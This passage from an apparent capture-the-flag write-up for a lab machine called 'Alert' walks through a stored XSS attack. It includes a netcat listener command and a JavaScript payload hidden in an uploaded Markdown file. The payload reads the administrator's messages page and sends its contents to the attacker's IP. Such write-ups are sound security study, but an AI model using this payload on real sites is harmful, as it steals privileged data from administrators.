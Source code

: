 Reviewing the main page, we notice that when rendering a `Markdown` file, there is a `Share` button.

![share](../../img/Alert/share.png)

If we could inject `JavaScript` code into a file, an `XSS` vulnerability could occur.

To test this, let's set up a listener with netcat on port `80` (`HTTP`) and send ourselves a request containing the contents of `messages.php` as seen by the administrator.

```
nc -lnvp 80
```

We upload a `file.md` with the following content:

```
<script>
(async () => {
const res = await fetch('http://alert.htb/messages.php')
const text = await res.text()
fetch('http://10.10.14.191/?res=' + encodeURIComponent(text))
})()
</script>
```

We copy the `Share` URL (without opening it) and send it to the website administrator via the `Contact Us` form.

![contact](../../img/Alert/contact.png)

After a while, we receive a request from IP `10.129.95.162` (the victim machine) with the parameter `res` containing an URL-encoded response.
